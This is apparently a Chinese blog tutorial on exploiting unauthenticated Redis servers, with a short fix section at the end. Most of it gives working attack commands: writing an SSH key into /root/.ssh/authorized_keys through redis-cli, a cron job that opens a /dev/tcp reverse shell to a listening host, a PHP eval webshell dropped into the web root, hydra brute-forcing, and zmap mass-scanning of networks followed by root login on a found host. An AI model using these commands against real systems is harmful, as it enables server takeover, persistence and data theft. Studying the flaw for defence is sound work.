

Reids介绍
Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。
漏洞介绍
Reids因配置不当可导致未授权访问漏洞，攻击者无需认证即可登陆Redis内部数据，可导致敏感信息泄漏；在特定条件下，Redis服务以root身份运行，攻击者可通过Reids命令给Root用户写入SSH公钥，直接通过SSH登陆受害服务器，导致服务器权限被获取、文件泄漏、重要数据删除、加密勒索等事件发生，严重威胁业务正常服务。
漏洞原因
Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。
漏洞利用
获取敏感信息
Nmap扫描后发现主机的6379端口对外开放，就可以用本地Redis远程连接服务器（redis在开放往外网的情况下(默认配置是bind 127.0.0.1，只允许本地访问，如果配置了其他网卡地址那么就可以网络访问)，默认配置下是空口令，端口为6379）连接后可以获取Redis敏感数据。

写入SSH公钥，获取操作系统权限
在攻击方生成一对 ssh key (如果已经生成过则可跳过此步骤)
1
$ ssh-keygen -t rsa
默认情况下，生成后在用户的家目录下的 .ssh 目录下
将生成的公钥的值写入目标服务器
1
2$ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt
$ cat /tmp/foo.txt | redis-cli -h 192.168.1.100 -p 6379 -x set crackit加上
\n\n是为了不破坏 ssh public key
crackit 是设置的 key，可随意指定连接目标
1
2
3
4
5
6
7
8
9
10$ redis-cli -h 192.168.1.100 -p 6379
192.168.1.100:6379> config set dir /root/.ssh/
OK
192.168.1.100:6379> config get dir
1) "dir"
2) "/root/.ssh"
192.168.1.100:6379> config set dbfilename "authorized_keys"
OK
192.168.1.100:6379> save
OK将目录设置为 /root/.ssh/ 目录后，再将备份文件名设置为
authorized_keys，通过 save 指令即可写入文件。通过 ssh 连接目标
1
$ ssh root@192.168.1.100 -i ~/.ssh/id_rsa
默认会使用
id_rsa如果改过文件名则可以用 -i 参数来指定。
利用crontab反弹shell
- 在攻击者服务器上监听一个端口（任意端口):nc -lvnp 4444
- 攻击详情
连接redis，写入反弹shell1
2
3
4
5redis-cli -h 192.168.152.128
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.152.129/4444 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
1分钟后客户端这边收到centos的反弹shell
获取web服务的webshell
当Redis权限不高，服务器开着web服务，已知web服务器绝对路径的情况下，且Reids在网站根目录下有写权限，可以通过Redis写入webshell1
2
3
4
5redis-cli -h 192.168.152.128
config set dir /var/www/html
set xxx "\n\n\n<?php @eval($_POST['c']);?>\n\n\n"
config set dbfilename webshell.php
save
利用hydra暴力破解redis的密码
使用hydra工具可以对redis进行暴力破解
hydra -P passwd.txt redis://漏洞服务器IP
案例：zmap测试Redis未授权
先上 zmap 这个大杀器大范围找安装 redis 服务的机器，aaa.bbb.0.0 是计划扫描的网络。1
zmap -B 1M -p 6379 aaa.bbb.0.0/16 -o results.csv
然后根据 results.csv 的结果来逐个排查，注意要能 ssh 登录的。1
cat results.csv | xargs nmap -p 22 # xargs将列表分段传给其他命令，避免参数列表过长问题
最后找一个隐蔽环境，开始干活，aaa.bbb.ccc.ddd 是目标地址：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43root@ab871b39330f:~
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Created directory '/root/.ssh'.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
f8:d1:b2:bc:d9:13:13:3d:de:6d:6e:27:bf:28:28:72 root@ab871b39330f
The key's randomart image is:
+---[RSA 2048]----+
| |
| |
| . |
| . .. o |
| . S .o o . |
| o +o . . o|
| + .o o |
| . E =.. o +|
| o + .... =+|
+-----------------+
root@ab871b39330f:~
OK
root@ab871b39330f:~
aaa.bbb.ccc.ddd:6379> config set dir /root/.ssh/
OK
aaa.bbb.ccc.ddd:6379> config get dir
1) "dir"
2) "/root/.ssh"
aaa.bbb.ccc.ddd:6379> config set dbfilename "authorized_keys"
OK
aaa.bbb.ccc.ddd:6379> save
OK
aaa.bbb.ccc.ddd:6379> exit
root@ab871b39330f:~
The authenticity of host 'aaa.bbb.ccc.ddd (aaa.bbb.ccc.ddd)' can't be established.
RSA key fingerprint is 0c:9d:60:e6:24:51:07:4d:93:0f:f3:4e:cb:12:ae:43.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'aaa.bbb.ccc.ddd' (RSA) to the list of known hosts.
Last login: Tue Sep 29 15:20:10 2015 from 202.115.16.136
[root@mscopyright1 ~]
/root
python脚本自动化测试
1 | #! /usr/bin/env python |
使用搜索引擎查找易受攻击的Redis服务器
我们将使用Shodan来搜索具有Redis特征的服务器。
我们通过Redis的默认端口进行简单搜索。
修复方案
- 绑定IP的方式进行控制，redis.conf中的bind 127.0.0.1 注释去掉
- 设置密码来提供远程登陆 requirepass yourpassword